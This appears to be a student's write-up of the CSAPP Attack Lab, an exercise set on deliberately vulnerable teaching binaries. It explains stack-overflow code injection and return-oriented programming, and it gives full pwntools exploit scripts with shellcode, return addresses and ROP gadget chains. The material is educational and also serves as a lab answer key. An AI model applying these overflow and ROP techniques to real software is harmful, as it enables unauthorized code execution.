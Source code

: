 ```yaml
---
title: CSAPP attacklab
date: 2022-06-16 23:45:00
category: Independent Learning
tags:
  - CSAPP Labs
---
```


This is the writeup for CSAPP Attacklab

Tool: IDA/Ghidra, pwndbg, pwntools

## Part I: Code Injection Attacks

## Level 1

Simple stack overflow, without the protection of canary and ASLR. Debugger check the stack frame, find out that total 40 bytes offset away from the return address. So make a 40 bytes padding then follow the address of touch1. Done

## Level 2

It checks the argument of touch2 to be the cookie that within the `cookie.txt` file. The stack is executable, so inject a shellcode into the stack then return to the stack to execute the shellcode to make `rdi` to be the correct cookie. 

## Level 3

Level 3 require a pointer to check, however, some part of the stack will be wiped out by the function `hexmatch` and `touch3`, so store the string in somewhere away from the place they wipe out will be fine. 

Solution for Part I:

```python
#!/usr/bin/python3

from pwn import *

context.arch = "amd64"
context.encoding = "latin"
context.log_level = "INFO"
warnings.simplefilter("ignore")

cookie = p32(0x59b997fa)
touch1 = p32(0x4017c0)
touch2 = p32(0x4017ec)
touch3 = p32(0x4018fa)

# p = gdb.debug(["./ctarget", "-q"])
p = process(["./ctarget", "-q"])

# exp for touch1
# p.sendline(b"A"*40 + touch1);

# exp for touch2
# shellcode = """
#     mov rdi, 0x59b997fa
#     push 0x4017ec
#     ret
# """
# print(len(asm(shellcode)))
# p.sendline(asm(shellcode) + b"A"*27 + p32(0x5561dc78));

# exp for touch3
shellcode = """
    mov rdi, 0x5561dca8
    push 0x4018fa
    ret
"""
print(len(asm(shellcode)))
p.sendline(asm(shellcode) + b"A"*27 + p64(0x5561dc78) + b"59b997fa");

print(p.readall().decode())
```

## Part II: Return-Oriented Programming

### Level 4

Same with Level 2, but with random memory address. So we are unable to access the code that we inject to the stack. The core part on `touch2` is to make `rdi = cookie`. With the help of ROPgadgets, we can find from the `farm.c` that there are two place to reach our goal:  

```assembly
getval_280:
0x4019cc
58 	 	 pop rax
90 	 	 nop
c3 	 	 ret

setval_426:
at 0x4019c5
48 89 c7 mov rdi, rax
90 		 nop
c3 		 ret
```

### Level 5

Same thing. Try to make `[rdi] = cookie`. You may find a gadget in `setval_350` that store `rsp` to `rax`. But the hard thing is that if we place where `rsp` is pointing to be the cookie value, we are unable to further jump to other places because the cookie take the place that original used for another return address. 

So, in order to bypass this issue, we can add an offset to `rsp` by `add_xy` function. So that it will point away from current position and we can store cookie string to other places. 

Solution for Part II:

```python
#!/usr/bin/python3

from pwn import *

context.arch = "amd64"
context.encoding = "latin"
context.log_level = "INFO"
warnings.simplefilter("ignore")

cookie = p32(0x59b997fa)
touch2 = p32(0x4017ec)
touch3 = p32(0x4018fa)

p = gdb.debug(["./rtarget", "-q"])
# p = process(["./rtarget", "-q"])

# exp for touch2
# p.sendline(b"A"*40 + p64(0x4019cc) + p64(0x59b997fa) + p64(0x4019c5) + p64(0x4017ec));

# exp for touch3
p.sendline(b"A"*40 + p64(0x4019cc) + p64(0x20) + p64(0x401a42) + p64(0x401a69) + p64(0x401a27) + p64(0x401a06) + p64(0x4019c5)
        + p64(0x4019d6) + p64(0x4019c5) + p64(0x4018fa) + b"59b997fa");

print(p.readall().decode())
```








